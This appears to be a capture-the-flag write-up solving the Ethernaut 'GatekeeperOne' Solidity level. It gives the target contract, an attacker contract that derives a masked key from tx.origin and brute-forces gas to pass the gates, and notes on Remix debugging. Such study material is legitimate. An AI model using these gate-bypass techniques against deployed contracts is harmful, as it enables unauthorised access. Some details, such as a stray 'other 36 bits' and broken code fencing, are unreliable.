

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract GatekeeperOne {

  using SafeMath for uint256;
  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

<hr />

# Hack

Gate 1:
Passing the gateOne() is easy as its already done before. Using another contract to call the GateKeeperOne contract is enough to pass it.

Gate 2:
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

contract EntryGate {
    bool public entered = false;
    uint public perfectGas = 0;

    function enter(address _gateKeeperAddress) public {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF;
        (bool success,) = _gateKeeperAddress.call{gas: 10000}(abi.encodeWithSignature("enter(bytes8)", key));
        require(entered);
    }
}
```

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.6.0;

contract EntryGate {
    bool public entered = false;
    uint public perfectGas = 0;

    function enter(address _gateKeeperAddress) public {
        bytes8 key = bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF;
        bool success = false;
        uint startGas = 8191 * 3 + 190;
        for (uint i = startGas; i < startGas + 122; i++) {
            (success,) = _gateKeeperAddress.call{gas: i}(abi.encodeWithSignature("enter(bytes8)", key));
            if (success) {
                entered = success;
                perfectGas = i;
                break;
            }
        }
        require(entered);
    }
}
```

For this Gate 2, hit and trial method should be applied and with the help of debugging it can be passed.

Initially i passed 10000 as gas as a test to check how much gas is used until it reverts at gateTwo(). Using the Remix debugger tool, we can can check how much gas was used until gasleft() by scrolling it until gasleft() execution is reached and we can get the remaining gas from the Step details on the Remix debugger.

Gas Used = Gas Sent - Gas Remaining = 10000 - 9748 = 252

So, i used a range of 120 to search for the perfect gas which will unlock the gateTwo. I multiplied 8191 by a multiple of 3 and 3 here is random and we have to send enough gas for all other operations. So after passing gateKeeper address to the enter function of the EntryGate contract in Remix, the perfect gas was found to be 24827 in the Javascript VM and also i got the same gas while i tried it on Rinkeby Network.

Please note that the gas usage depends upon different factors such as compiler version, optimization etc. so it might be different according to what settings is used.


Gate 3:
We have the following requirements to pass the gate 3.

```
a) uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
b) uint32(uint64(_gateKey)) != uint64(_gateKey)
c) uint32(uint64(_gateKey)) == uint16(tx.origin)
```

For condition a) to hold true, _gateKey should have lower 16 bits mix of 0 and 1 and 16 bits 0 and other 32 bits can be 0 or combination of 0 and 1.

For condition b) to hold true, _gateKey should have lower 16 bits mix of 0 and 1 and 16 bits 0 to hold a) true but to hold b) true other 36 bits can be combination of 0 and 1 or only 1.

For condition c) to hold true, _gateKey has to satisfy a) and b) and also c) so the _gateKey value should be bytes8(uint64(tx.origin)) & 0xFFFFFFFF0000FFFF

This level is a bit harder than before levels but feels good to be able to complete. :D